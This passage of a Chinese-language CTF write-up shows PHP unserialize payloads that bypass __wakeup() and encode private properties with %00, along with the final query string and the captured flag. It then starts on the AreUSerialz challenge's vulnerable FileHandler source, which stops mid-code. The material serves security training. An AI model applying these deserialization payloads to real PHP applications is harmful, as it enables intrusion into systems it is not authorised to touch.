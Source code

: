`O:4:"Name":2:{s:14:" Name username";s:5:"admin";s:14:" Name password";i:100;}`

绕过\_\_wakeup()

`O:4:"Name":3:{s:14:" Name username";s:5:"admin";s:14:" Name password";i:100;}`

private属性被序列化的时候属性值会变成%00类名%00属性名,根据规则进行修改

`O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}`

?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}

flag{6cbb5b95-dcf1-421a-b074-f7db9d370860}

### [网鼎杯 2020 青龙组]AreUSerialz

题目给了源码

```assembly
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
```